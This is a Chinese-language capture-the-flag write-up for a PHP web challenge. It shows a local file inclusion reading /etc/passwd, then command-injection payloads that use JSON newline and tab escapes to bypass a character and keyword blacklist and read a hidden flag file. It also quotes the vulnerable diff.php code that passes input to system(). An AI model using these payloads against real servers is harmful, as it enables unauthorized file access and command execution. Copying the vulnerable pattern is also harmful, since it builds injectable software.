 # PHP of PHP

網站有兩個功能：(1)view (2)diff

view可以看各個版本的php.net源碼

diff可以比較跟目前的差異 (用diff比)

看一下source，會發現她用JS送request

view是直接用GET訪問取得內容

diff是用POST送JSON過去要內容

送的都是"版本名/index"

看到這個直覺就是LFI

把diff的request改成`{"version":"/etc/passwd"}`

Bang! 噴出來惹 果然可以LFI

再來就踹`{"version":"/v*/w*/h*/d*"}`看diff.php源碼

噴出這幾個關鍵code:

```php
> <?php
> set_time_limit(3);
> @$data = json_decode(file_get_contents('php://input'), true);
> if(isset($data["version"])){
>   $v = $data["version"];
>   if(strlen($v) >= 15){exit("Input too long!");}
>   if(preg_match('/[^a-zA-Z0-9\/\?\*\t\n]/',$v)){exit("Special character found in input!");}
>   if(preg_match('/ls|cat|tac|nl|more|less|head|tail|od|strings|base64|sort|pg|uniq|rev/',$v)){exit("Blacklisted command found in input!");}
>   chdir("web-php");
>   @system("diff current/index $v");
```

可以明顯看到，這裡可以Command Injection

只是他有擋掉特殊符號和一些關鍵字

開繞！

而換行雖然沒擋，可是json_decode不吃換行

但是json_decode可以吃`\n`和`\t`，他decode會自動轉成換行

另外不能ls，那要怎麼列目錄？

可以這樣： `{"version":"\necho\t*"}`

然後看一下根目錄有啥： `{"version":"\ncd\t/\necho\t*"}`

噴出一個奇妙的資料夾：`th1s_i5_4_l0n9_f0ld3r_n4me`

看它裡面有啥：`{"version":"\ncd\t/t*\necho\t*"}`

噴出一個奇妙的檔案：`7hi5_i5_a_s3cre7_fi13`

再來就直接讀這個檔案：`{"version":"/th*/7*"}`

FLAG就噴出來惹：`vxctf{YezWiiWerBorn2MakeHistory}`
